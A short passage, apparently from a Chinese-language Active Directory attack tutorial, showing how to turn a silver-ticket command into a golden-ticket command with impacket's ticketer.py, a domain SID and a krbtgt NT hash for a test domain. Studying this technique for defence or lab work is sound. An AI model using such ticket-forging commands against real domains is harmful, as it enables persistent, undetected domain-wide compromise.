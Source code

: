 在银票的命令基础上去掉-spn，将nthash修改为krbtgt的hash即可。

```plain
py -3 .\ticketer.py -domain-sid S-1-5-21-2799988422-2257142125-1453840996 -domain test.com -nthash 96dd976cc094ca1ddb2f06476fb61eb6 qqq
```

[![](assets/1702372846-4f396c4b3645ab8a76fdad2a68f210d4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221124123703-a49dcc44-6bb1-1.png)

[![](assets/1702372846-dcf2731e0f26f0857798c8f0b60a8bfd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221124123713-aa8e4232-6bb1-1.png)
